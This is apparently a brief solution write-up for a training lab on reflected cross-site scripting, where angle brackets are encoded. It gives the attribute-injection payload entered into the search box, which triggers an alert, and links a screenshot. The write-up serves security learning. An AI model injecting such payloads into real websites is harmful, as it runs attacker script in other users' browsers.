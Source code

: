 *This lab contains a reflected cross-site scripting vulnerability in the search blog functionality where angle brackets are HTML-encoded. To solve this lab, perform a cross-site scripting attack that injects an attribute and calls the alert function.*

Inserted the following payload into the search box to solve the lab:
`" autofocus onfocus=alert(document.domain) x="
![Screenshot 2024-05-16 at 9.57.57 AM](images/Screenshot%202024-05-16%20at%209.57.57%20AM.png)

